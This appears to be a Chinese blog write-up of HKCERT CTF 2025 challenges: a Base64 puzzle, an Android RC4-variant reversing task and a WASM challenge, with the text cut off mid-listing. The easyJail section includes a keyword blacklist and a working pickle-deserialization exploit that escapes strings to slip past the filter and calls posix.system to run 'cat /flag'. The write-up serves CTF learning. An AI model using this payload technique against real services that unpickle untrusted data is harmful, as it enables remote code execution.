




## HKCERT CTF 2025

***




`总排名110/573,位列国际组第71名`

这是第一次参加国际性质的赛事，也是颇为激动吧，和Rycbartbad师傅、Cha师傅组了一个小队伍

Cha师傅由于时间关系，只做了一点点题目；我和Rycbartbad师傅做到一半被拉去打另一个比赛了

但是很意外的是第一天拿下了一个crypto一血，Cha师傅拿了一个Crypto一血和web三血，还是很有潜力滴~加油加油

## **misc**

+ Questionnaire

> 略


+ Easy_Base

> Newcomer, the academy has given you a set of weapons capable of killing the Dragon King, but the text on them seems a bit hard to read (flag format: flag{xx_xx})

[ ^附件]:task.zip

```text
Zg====AbYQ====wZew====ARZQ====gbaQ====QcdQ====QZdQ====gYaQ====QZcg====QadA====wXcw====QYbg====wZdQ====Qacw====QYZw====AbYQ====AZaQ====wbcg====QZZw====Qacw====Qf
```

看到字符串挺懵的，首先看到=很像base64/base32，但是base32字符集没这么大，只能是base64

那么多=?姑且当垃圾字节来看，那我们直接解密base64

```text
66 00 1b 61 0c 19 7b 00 11 65 08 1b 69 04 1c 75 04 19 75 08 18 69 04 19 72 04 1a 74 0c 17 73 04 18 6e 0c 19 75 04 1a 73 04 18 67 00 1b 61 00 19 69 0c 1b 72 04 19 67 04 1a 73 04 1f
```

不可见字符全部用hex代替

开头第一个就是f，这很可疑。于是看看“flag”base64之后得到啥？

```text
l -> bA==
a -> YQ==
g -> Zw==
```

事已至此，可以发现出题人的小心思了：==垃圾全部删掉，每两个ASCII为一组解码。其中偶数位置需要倒置

ai一把梭，**flag{Deniqueubierit_sanguisagladioregis}**


+ easyJail

> Very easy pickle jail，go ahead !

[ ^附件]:easyJail.zip

```python
# pylint: disable = unnecessary-lambda-assignment, protected-access, redefined-builtin
import pickle
from io import BytesIO
from base64 import b64decode

_dispatch = pickle._Unpickler.dispatch

_noop = lambda *_: None
_noop_code = _noop.__code__

_DISABLED_OPCODES = [
    pickle.NEWOBJ_EX[0],
    pickle.INST[0],
    pickle.REDUCE[0],
    pickle.OBJ[0],
    pickle.NEWOBJ[0],
]

for opcode in _DISABLED_OPCODES:
    _dispatch.pop(opcode)

pickle._Unpickler.dispatch = _dispatch

for method_name in (
    "load_newobj_ex",
    "load_obj",
    "load_reduce",
    "load_newobj",
    "load_inst",
):
    handler = getattr(pickle._Unpickler, method_name)
    handler.__code__ = _noop_code

__builtins__ = {
    "input": input,
    "ValueError": ValueError,
    "bytes": bytes,
    "isinstance": isinstance,
}

del _dispatch
del _noop
del _noop_code
del _DISABLED_OPCODES
del opcode

_BLACKLISTED_SUBSTRINGS = {
    "var",
    "input",
    "builtin",
    "set",
    "get",
    "import",
    "open",
    "subprocess",
    "sys",
    "eval",
    "exec",
    "os",
    "compile",
}


def loads(data: bytes):
    if not isinstance(data, bytes):
        raise TypeError("expected bytes")

    for token in _BLACKLISTED_SUBSTRINGS:
        if token.encode() in data:
            raise ValueError(f"{token} not allowed")

    buffer = BytesIO(data)
    return pickle._Unpickler(buffer).load()


opcode = b64decode(input("Enter your pickle: ").encode())
del b64decode
loads(opcode)
```

if token.encode() in data 检查了黑名单"var","input","builtin","set","get","import","open","subprocess","sys","eval","exec","os","compile"

但是导入了pickle解释器，可以转义绕过

```text
pickle支持的转义序列
\xhh - 十六进制（如 \x6f = 'o'）
\ooo - 八进制
\n, \r, \t 等标准转义
\\ - 反斜杠本身
```

```python
_DISABLED_OPCODES = [
    pickle.NEWOBJ_EX[0],  # 禁用创建对象
    pickle.INST[0],       # 禁用实例化
    pickle.REDUCE[0],     # 禁用REDUCE指令 - 非常重要！
    pickle.OBJ[0],        # 禁用OBJ指令
    pickle.NEWOBJ[0],     # 禁用NEWOBJ指令
]
```

注意到`BUILD` 指令（操作码 `b`）没有被禁用

可以导入 os.path。
动态地给 os.path 模块添加一个 __setstate__ 方法（指向 system 函数）。
再次调用 BUILD 传入 cat /flag。
pickle 内部逻辑会检测到 __setstate__ 存在，调用：os.path.__setstate__("cat /flag")。

```python
import base64

def generate_payload(command):
    # 将字符串转换为 \uXXXX 格式以绕过黑名单检查
    # 因为 blacklist 检查的是原始字节流，b'os' 不在 b'\\u006f\\u0073' 中
    def escape(s):
        return "".join(f"\\u{ord(c):04x}" for c in s)

    # \x80\x04: Protocol 4
    # \x93: STACK_GLOBAL (获取模块/函数)
    # b: BUILD (用于触发执行)
    
    payload = b"\x80\x04"
    
    # 1. 获取 os.path 模块
    payload += b"V" + escape("os").encode() + b"\n"
    payload += b"V" + escape("path").encode() + b"\n"
    payload += b"\x93"
    
    # 2. 准备字典 { "__setstate__": posix.system }
    payload += b"("
    payload += b"V" + escape("__setstate__").encode() + b"\n"
    payload += b"V" + escape("posix").encode() + b"\n"
    payload += b"V" + escape("system").encode() + b"\n"
    payload += b"\x93"
    payload += b"d"
    
    # 3. 第一次 BUILD: 将 os.path.__setstate__ 设为 posix.system
    payload += b"b"
    
    # 4. 第二次 BUILD: 传入命令字符串，触发 os.path.__setstate__(command)
    payload += b"V" + command.encode() + b"\n"
    payload += b"b"
    
    # 5. 结束
    payload += b"."
    
    return base64.b64encode(payload).decode()

# 生成读取 flag 的 payload
final_b64 = generate_payload("cat /flag")
print(f"Final Payload: {final_b64}")
```

攻击payload:gARWXHUwMDZmXHUwMDczClZcdTAwNzBcdTAwNjFcdTAwNzRcdTAwNjgKkyhWXHUwMDVmXHUwMDVmXHUwMDczXHUwMDY1XHUwMDc0XHUwMDczXHUwMDc0XHUwMDYxXHUwMDc0XHUwMDY1XHUwMDVmXHUwMDVmClZcdTAwNzBcdTAwNmZcdTAwNzNcdTAwNjlcdTAwNzgKVlx1MDA3M1x1MDA3OVx1MDA3M1x1MDA3NFx1MDA2NVx1MDA2ZAqTZGJWY2F0IC9mbGFnCmIu

**flag{hMbo8rrvlHgS86k3TgXhZGHlGt5WDQSp}**


## **Reverse**

+ one_by_one

>We need to decrypt it

[ ^附件]:onebyone.zip

发现给了onebypne.apk，第二次挑战apk逆向

jadx打开

```text
先认识JADX-GUI的主要区域：

左侧：文件树，显示包结构

中间：代码查看区

右侧：大纲视图（类、方法列表）

底部：日志/搜索结果
```

在/res下找到AndroidMainFest.xml

```java
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    android:versionCode="1"
    android:versionName="1.0"
    android:compileSdkVersion="32"
    android:compileSdkVersionCodename="12"
    package="com.example.onebyone"
    platformBuildVersionCode="32"
    platformBuildVersionName="12">
    <uses-sdk
        android:minSdkVersion="21"
        android:targetSdkVersion="32"/>
    <application
        android:theme="@style/Theme.Onebyone"
        android:label="@string/app_name"
        android:icon="@mipmap/ic_launcher"
        android:debuggable="true"
        android:allowBackup="true"
        android:supportsRtl="true"
        android:fullBackupContent="@xml/backup_rules"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:appComponentFactory="androidx.core.app.CoreComponentFactory"
        android:dataExtractionRules="@xml/data_extraction_rules">
        <activity
            android:name="com.example.onebyone.MainActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
            <meta-data
                android:name="android.app.lib_name"
                android:value=""/>
        </activity>
        <provider
            android:name="androidx.startup.InitializationProvider"
            android:exported="false"
            android:authorities="com.example.onebyone.androidx-startup">
            <meta-data
                android:name="androidx.emoji2.text.EmojiCompatInitializer"
                android:value="androidx.startup"/>
            <meta-data
                android:name="androidx.lifecycle.ProcessLifecycleInitializer"
                android:value="androidx.startup"/>
        </provider>
    </application>
</manifest>
```

看这个xml的意义是什么呢？

```text
一、为什么从AndroidManifest.xml开始？
1. 找到程序的"地图"
AndroidManifest.xml是Android应用的配置文件，相当于：
建筑的蓝图（知道入口在哪里）
书的目录（知道有哪些章节）
游戏的攻略（知道关卡和规则）
```

```text
<!-- 关键信息 -->
package="com.example.onebyone"  // 包名
android:debuggable="true"       // 可以动态调试！
activity android:name="com.example.onebyone.MainActivity"  // 主入口
```

核心信息：

```java
<intent-filter>
    <action android:name="android.intent.action.MAIN"/>
    <category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
```

`MainActivity`是用户点击图标时第一个打开的界面。复杂的应用可能有多个activity。

```java
package com.example.onebyone;

import android.os.Bundle;
import android.view.View;
import android.widget.Button;
import android.widget.EditText;
import android.widget.Toast;
import androidx.appcompat.app.AppCompatActivity;
import com.example.onebyone.databinding.ActivityMainBinding;
import java.util.Arrays;

/* loaded from: classes.dex */
public class MainActivity extends AppCompatActivity {
    public ActivityMainBinding binding;

    public native int[] jiami(int[] iArr);

    static {
        System.loadLibrary("onebyone");
    }

    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        ActivityMainBinding activityMainBindingInflate = ActivityMainBinding.inflate(getLayoutInflater());
        this.binding = activityMainBindingInflate;
        setContentView(activityMainBindingInflate.getRoot());
        final EditText input = (EditText) findViewById(R.id.edit1);
        Button calculateButton = (Button) findViewById(R.id.button1);
        calculateButton.setOnClickListener(new View.OnClickListener() { // from class: com.example.onebyone.MainActivity.1
            @Override // android.view.View.OnClickListener
            public void onClick(View v) {
                MainActivity.this.processInput(input.getText().toString());
            }
        });
    }

    public final void processInput(String userInput) {
        int state = 0;
        long[] result = null;
        int[] arr = null;
        int[] result1 = null;
        int[] result2 = {206, 176, 51, 89, 115, 30, 199, 248, 5, 103, 255, 154, 27, 21, 228, 69, 190, 160, 235, 131, 5, 16, 112, 22};
        while (true) {
            switch (state) {
                case 0:
                    if (userInput.length() != 24) {
                        state = 1;
                        break;
                    } else {
                        state = 2;
                        break;
                    }
                case 1:
                    Toast.makeText(getApplicationContext(), "长度错误", 0).show();
                    System.exit(0);
                    return;
                case 2:
                    result = calculate(userInput);
                    state = 3;
                    break;
                case 3:
                    arr = new int[24];
                    state = 4;
                    break;
                case 4:
                    for (int i = 0; i < 3; i++) {
                        long value = result[i];
                        for (int j = 0; j < 8; j++) {
                            arr[(i * 8) + j] = (int) ((value >> (j * 8)) & 255);
                        }
                    }
                    state = 5;
                    break;
                case 5:
                    result1 = jiami(arr);
                    state = 6;
                    break;
                case 6:
                    if (Arrays.equals(result1, result2)) {
                        state = 7;
                        break;
                    } else {
                        state = 8;
                        break;
                    }
                case 7:
                    Toast.makeText(getApplicationContext(), "正确！", 0).show();
                    return;
                case 8:
                    Toast.makeText(getApplicationContext(), "错误！", 0).show();
                    return;
                default:
                    return;
            }
        }
    }

    public final long[] calculate(String input) {
        int state = 0;
        long[] arr4 = new long[3];
        long[] a = new long[3];
        int i = 0;
        int j = 0;
        long t = 0;
        while (true) {
            switch (state) {
                case 0:
                    if (i < input.length()) {
                        state = 1;
                        break;
                    } else {
                        state = 2;
                        break;
                    }
                case 1:
                    String group = input.substring(i, Math.min(i + 8, input.length()));
                    arr4[i / 8] = Long.parseLong(stringToHex(group).substring(0), 16);
                    i += 8;
                    state = 0;
                    break;
                case 2:
                    j = 0;
                    state = 3;
                    break;
                case 3:
                    if (j < 3) {
                        state = 4;
                        break;
                    } else {
                        state = 7;
                        break;
                    }
                case 4:
                    t = arr4[j];
                    i = 0;
                    state = 5;
                    break;
                case 5:
                    if (i < 64) {
                        state = 6;
                        break;
                    } else {
                        a[j] = t;
                        j++;
                        state = 3;
                        break;
                    }
                case 6:
                    if ((t & Long.MIN_VALUE) == Long.MIN_VALUE) {
                        t = ((Long.MAX_VALUE & t) * 2) ^ 8284901391658006163L;
                    } else {
                        t *= 2;
                    }
                    i++;
                    state = 5;
                    break;
                case 7:
                    return a;
                default:
                    return a;
            }
        }
    }

    public static String stringToHex(String str) {
        StringBuilder hex = new StringBuilder();
        int state = 0;
        int idx = 0;
        char[] chars = str.toCharArray();
        while (true) {
            switch (state) {
                case 0:
                    if (idx < chars.length) {
                        state = 1;
                        break;
                    } else {
                        state = 2;
                        break;
                    }
                case 1:
                    hex.append(String.format("%02x", Integer.valueOf(chars[idx])));
                    idx++;
                    state = 0;
                    break;
                case 2:
                    return hex.toString();
                default:
                    return hex.toString();
            }
        }
    }
}
```

在/com/example.onebyone下面可以找到MainActivity。

流程如下：输入 → 长度检查(24位) → calculate()处理 → jiami()加密 → 与密文比较

```java
int[] result2 = {206,176,51,89,115,30,199,248,5,103,255,154,27,21,228,69,190,160,235,131,5,16,112,22};
```

calculate():

**calculate()函数处理**

将24字符分成3组（每组8字符）

每组转成16进制，再转成long整数

对每个long进行64次变换（类似线性反馈移位）

jiami函数解压之后ida打开libonebyone.so，找到的函数是Java_com_example_onebyone_MainActivity_jiami

```c
__int64 __fastcall Java_com_example_onebyone_MainActivity_jiami(_JNIEnv *a1, __int64 a2, __int64 a3)
{
  int i; // [rsp+14h] [rbp-8Ch]
  __int64 v5; // [rsp+18h] [rbp-88h]
  void *ptr; // [rsp+28h] [rbp-78h]
  signed int ArrayLength; // [rsp+34h] [rbp-6Ch]
  __int64 IntArrayElements; // [rsp+38h] [rbp-68h]
  __int64 v11; // [rsp+68h] [rbp-38h] BYREF
  _DWORD v12[10]; // [rsp+70h] [rbp-30h] BYREF
  unsigned __int64 v13; // [rsp+98h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  v12[0] = sub_DB0(104);
  v12[1] = sub_DB0(115);
  v12[2] = sub_DB0(119);
  v12[3] = sub_DB0(83);
  v12[4] = sub_DB0(115);
  v12[5] = sub_DB0(115);
  v12[6] = sub_DB0(93);
  v12[7] = sub_DB0(101);
  sub_DD0(v12, &v11, 8);
  IntArrayElements = _JNIEnv::GetIntArrayElements(a1, a3, 0);
  if ( !IntArrayElements )
    return 0;
  ArrayLength = _JNIEnv::GetArrayLength(a1, a3);
  ptr = malloc(4LL * ArrayLength);
  if ( ptr )
  {
    if ( (unsigned int)time(0) == 305419896 )
    {
      free(ptr);
      return 0;
    }
    else
    {
      sub_F10(&v11, 8, IntArrayElements, ArrayLength, ptr);
      v5 = _JNIEnv::NewIntArray(a1, ArrayLength);
      if ( v5 )
      {
        _JNIEnv::SetIntArrayRegion(a1, v5, 0, ArrayLength, ptr);
        for ( i = 0; i < 8; ++i )
          *((_BYTE *)&v12[-2] + i) = 0;
        free(ptr);
        _JNIEnv::ReleaseIntArrayElements(a1, a3, IntArrayElements, 0);
        return v5;
      }
      else
      {
        free(ptr);
        _JNIEnv::ReleaseIntArrayElements(a1, a3, IntArrayElements, 0);
        return 0;
      }
    }
  }
  else
  {
    _JNIEnv::ReleaseIntArrayElements(a1, a3, IntArrayElements, 0);
    return 0;
  }
}
```

DB0明显是 用于生成密钥的

```c
__int64 __fastcall sub_DB0(int a1)
{
  return (a1 ^ 0x5Au) + 19;
}
```

调用了DD0:

```c
__int64 __fastcall sub_DD0(__int64 a1, __int64 a2, int n8)
{
  __int64 i_1; // rax
  int i; // [rsp+8h] [rbp-18h]

  for ( i = 0; ; ++i )
  {
    i_1 = (unsigned int)i;
    if ( i >= n8 )
      break;
    *(_BYTE *)(a2 + i) = sub_10D0(*(unsigned int *)(a1 + 4LL * i));
  }
  return i_1;
}
```

调用了10D0:

```c
__int64 __fastcall sub_10D0(int a1)
{
  return (a1 - 19) ^ 0x5Au;
}
```

笑死了，10D0直接逆向回去了，请忽略上述三个废话函数


需要看F10函数

```c
unsigned __int64 __fastcall sub_F10(
        __int64 a1,
        unsigned int n8,
        __int64 IntArrayElements,
        signed int ArrayLength,
        _DWORD *ptr)
{
  signed int i; // [rsp+8h] [rbp-148h]
  int v10; // [rsp+38h] [rbp-118h] BYREF
  int v11; // [rsp+3Ch] [rbp-114h] BYREF
  _BYTE v12[264]; // [rsp+40h] [rbp-110h] BYREF
  unsigned __int64 v13; // [rsp+148h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  sub_10F0(v12, 256);
  sub_1190(v12, a1, n8);
  v11 = 0;
  v10 = 0;
  for ( i = 0; i < ArrayLength; ++i )
    ptr[i] = sub_1280(v12, *(unsigned int *)(IntArrayElements + 4LL * i), &v11, &v10);
  return __readfsqword(0x28u);
}
```

10F0:

```c
__int64 __fastcall sub_10F0(__int64 a1, int n256)
{
  __int64 result; // rax
  int i; // [rsp+4h] [rbp-18h]
  char v4; // [rsp+8h] [rbp-14h]

  v4 = 0;
  for ( i = 0; i < 256; ++i )
  {
    v4 ^= i;
    *(_BYTE *)(a1 + i) = i;
    result = (unsigned int)(i + 1);
  }
  return result;
}
```

1280:

```c
__int64 __fastcall sub_1280(__int64 a1, unsigned int a2, int *a3, int *a4)
{
  char v5; // [rsp+Fh] [rbp-25h]

  *a3 = (*a3 + 2) % 256;
  *a4 = (*(unsigned __int8 *)(a1 + *a3) + *a4) % 256;
  v5 = *(_BYTE *)(a1 + *a3);
  *(_BYTE *)(a1 + *a3) = *(_BYTE *)(a1 + *a4);
  *(_BYTE *)(a1 + *a4) = v5;
  return *(unsigned __int8 *)(a1 + (*(unsigned __int8 *)(a1 + *a4) + *(unsigned __int8 *)(a1 + *a3) + 2) % 256) ^ a2;
}
```

注意1280魔改了，不是标准RC4。


```python
def rc4_variant_decrypt(data, key):
    # KSA: 密钥调度算法
    s = list(range(256))
    j = 0
    for i in range(256):
        j = (j + s[i] + key[i % len(key)]) % 256
        s[i], s[j] = s[j], s[i]
    
    # PRGA: 变体伪随机生成算法
    i = 0
    j = 0
    res = []
    for val in data:
        i = (i + 2) % 256  # 变体1: 步进为 2
        j = (s[i] + j) % 256
        s[i], s[j] = s[j], s[i]
        # 变体2: 计算下标时多加了 2
        idx = (s[i] + s[j] + 2) % 256
        k = s[idx]
        res.append(val ^ k)
    return res

def solve():
    
    result2 = [206, 176, 51, 89, 115, 30, 199, 248, 5, 103, 255, 154, 27, 21, 228, 69, 190, 160, 235, 131, 5, 16, 112, 22]
    
    # 1. Native 层逆向
    key = [104, 115, 119, 83, 115, 115, 93, 101]
    arr = rc4_variant_decrypt(result2, key)
    
    # 2. 还原为 3 个 64位 long (注意 Java 提取字节是小端序)
    blocks = []
    for i in range(3):
        val = 0
        for j in range(8):
            val |= (arr[i * 8 + j] << (j * 8))
        blocks.append(val)

    # 3. 逆转 Java 层 calculate (LFSR)
    poly = 8284901391658006163
    mask_msb = 1 << 63
    mask_64 = 0xFFFFFFFFFFFFFFFF

    final_flag = ""
    for t in blocks:
        # 逆转 64 次循环
        for _ in range(64):
            # 判断最低位：如果为1，说明正向最后一步发生了异或
            if t & 1:
                t = ((t ^ poly) >> 1) | mask_msb
            else:
                t = (t >> 1)
            t &= mask_64
        
        # 4. 转换回字符串
        # Java 的 parseLong(hex, 16) 意味着第一个字符在高位 (Big Endian)
        block_hex = format(t, '016x')
        final_flag += bytes.fromhex(block_hex).decode('utf-8')
            
    return final_flag

if __name__ == "__main__":
    try:
        print("flag:", solve())
    except Exception as e:
        print("解码失败，请检查数据。错误信息:", e)
```

**flag{345623095654755648}**


+ Wm

> Have you heard of wasm

[ ^附件]:challenge.zip

高端局，第一次见wasm文件

wasm即WebAssembly，是一种二进制指令格式，设计用于在浏览器中高性能执行，但也常用于 CTF 的逆向题中。
`.wasm` 文件是编译后的二进制模块，通常由 C/C++/Rust 等语言编译而来。

```bash
sudo apt install wabt
```

```bash
wasm2wat challenge.wasm -o challenge.wat
```

wasm2wat：将 wasm 二进制文件转为文本格式的 .wat（WebAssembly 文本格式，类似汇编）

```wasm
(module
  (type (;0;) (func (param i32)))
  (type (;1;) (func))
  (type (;2;) (func (param i32 i32) (result i32)))
  (type (;3;) (func (param i32 i32 i32) (result i32)))
  (type (;4;) (func (param i32 i32)))
  (type (;5;) (func (param i32) (result i32)))
  (type (;6;) (func (result i32)))
  (func (;0;) (type 1)
    nop)
  (func (;1;) (type 2) (param i32 i32) (result i32)
    (local i32 i32 i32 i32 i32 i32 i32 i32 i32 i32)
    global.get 0
    i32.const 144
    i32.sub
    local.tee 7
    global.set 0
    block  ;; label = @1
      local.get 1
      i32.const 48
      i32.gt_u
      br_if 0 (;@1;)
      local.get 7
      i32.const 128
      i32.add
      local.set 8
      loop  ;; label = @2
        local.get 3
        i32.const 8
        i32.ne
        if  ;; label = @3
          local.get 3
          local.get 8
          i32.add
          local.get 3
          i32.const 1024
          i32.add
          i32.load8_u
          local.get 3
          i32.const 1040
          i32.add
          i32.load8_u
          local.get 3
          i32.const 255
          i32.and
          call 2
          i32.store8
          local.get 3
          i32.const 1
          i32.add
          local.set 3
          br 1 (;@2;)
        end
      end
      i32.const 8
      local.set 3
      loop  ;; label = @2
        local.get 3
        i32.const 16
        i32.ne
        if  ;; label = @3
          local.get 3
          local.get 8
          i32.add
          local.get 3
          i32.const 1024
          i32.add
          i32.load8_u
          local.get 3
          i32.const 1040
          i32.add
          i32.load8_u
          local.get 3
          i32.const 255
          i32.and
          call 2
          i32.store8
          local.get 3
          i32.const 1
          i32.add
          local.set 3
          br 1 (;@2;)
        end
      end
      local.get 7
      i32.const -64
      i32.sub
      local.set 9
      local.get 1
      i32.const 48
      i32.and
      i32.const 16
      i32.add
      local.set 4
      loop  ;; label = @2
        local.get 1
        local.get 5
        i32.eq
        if  ;; label = @3
          block  ;; label = @4
            local.get 4
            local.get 1
            local.get 1
            local.get 4
            i32.lt_u
            select
            local.set 3
            local.get 4
            local.get 1
            i32.sub
            local.set 0
            loop  ;; label = @5
              local.get 1
              local.get 3
              i32.eq
              br_if 1 (;@4;)
              local.get 1
              local.get 9
              i32.add
              local.get 0
              i32.store8
              local.get 1
              i32.const 1
              i32.add
              local.set 1
              br 0 (;@5;)
            end
            unreachable
          end
        else
          local.get 5
          local.get 9
          i32.add
          local.get 0
          local.get 5
          i32.add
          i32.load8_u
          i32.store8
          local.get 5
          i32.const 1
          i32.add
          local.set 5
          br 1 (;@2;)
        end
      end
      local.get 4
      i32.const 32
      i32.ne
      br_if 0 (;@1;)
      i32.const 0
      local.set 1
      loop  ;; label = @2
        local.get 1
        i32.const 32
        i32.lt_u
        if  ;; label = @3
          local.get 1
          local.get 9
          i32.add
          local.set 2
          local.get 1
          local.get 7
          i32.add
          local.set 10
          i32.const 0
          local.set 0
          global.get 0
          i32.const 192
          i32.sub
          local.tee 6
          global.set 0
          loop  ;; label = @4
            local.get 0
            i32.const 16
            i32.eq
            if  ;; label = @5
              i32.const 0
              local.set 0
              loop  ;; label = @6
                local.get 0
                i32.const 16
                i32.eq
                if  ;; label = @7
                  block  ;; label = @8
                    local.get 6
                    i32.const 16
                    i32.sub
                    local.set 11
                    i32.const 1
                    local.set 5
                    loop  ;; label = @9
                      local.get 5
                      i32.const 11
                      i32.eq
                      br_if 1 (;@8;)
                      local.get 5
                      i32.const 17
                      i32.mul
                      local.set 4
                      i32.const 0
                      local.set 0
                      local.get 11
                      local.get 5
                      i32.const 4
                      i32.shl
                      local.tee 3
                      i32.add
                      local.set 2
                      loop  ;; label = @10
                        local.get 0
                        i32.const 16
                        i32.eq
                        if  ;; label = @11
                          local.get 5
                          i32.const 1
                          i32.add
                          local.set 5
                          br 2 (;@9;)
                        else
                          local.get 3
                          local.get 6
                          i32.add
                          local.get 0
                          i32.add
                          local.get 4
                          local.get 0
                          local.get 2
                          i32.add
                          i32.load8_u
                          i32.xor
                          local.get 0
                          i32.xor
                          i32.store8
                          local.get 0
                          i32.const 1
                          i32.add
                          local.set 0
                          br 1 (;@10;)
                        end
                        unreachable
                      end
                      unreachable
                    end
                    unreachable
                  end
                else
                  local.get 0
                  local.get 6
                  i32.add
                  local.get 0
                  local.get 8
                  i32.add
                  i32.load8_u
                  i32.store8
                  local.get 0
                  i32.const 1
                  i32.add
                  local.set 0
                  br 1 (;@6;)
                end
              end
              local.get 6
              i32.const 176
              i32.add
              local.get 6
              call 3
              i32.const 1
              local.set 0
              loop  ;; label = @6
                local.get 0
                i32.const 11
                i32.eq
                if  ;; label = @7
                  block  ;; label = @8
                    i32.const 0
                    local.set 0
                    loop  ;; label = @9
                      local.get 0
                      i32.const 16
                      i32.eq
                      br_if 1 (;@8;)
                      local.get 0
                      local.get 10
                      i32.add
                      local.get 6
                      i32.const 176
                      i32.add
                      local.get 0
                      i32.add
                      i32.load8_u
                      i32.store8
                      local.get 0
                      i32.const 1
                      i32.add
                      local.set 0
                      br 0 (;@9;)
                    end
                    unreachable
                  end
                else
                  local.get 6
                  i32.const 176
                  i32.add
                  local.set 2
                  i32.const 0
                  local.set 4
                  loop  ;; label = @8
                    local.get 4
                    i32.const 16
                    i32.ne
                    if  ;; label = @9
                      local.get 2
                      local.get 4
                      i32.add
                      local.tee 3
                      local.get 3
                      i32.load8_u
                      i32.const 1056
                      i32.add
                      i32.load8_u
                      i32.store8
                      local.get 4
                      i32.const 1
                      i32.add
                      local.set 4
                      br 1 (;@8;)
                    end
                  end
                  local.get 2
                  i32.load8_u offset=1
                  local.set 4
                  local.get 2
                  local.get 2
                  i32.load8_u offset=5
                  i32.store8 offset=1
                  local.get 2
                  i32.load8_u offset=9
                  local.set 3
                  local.get 2
                  local.get 2
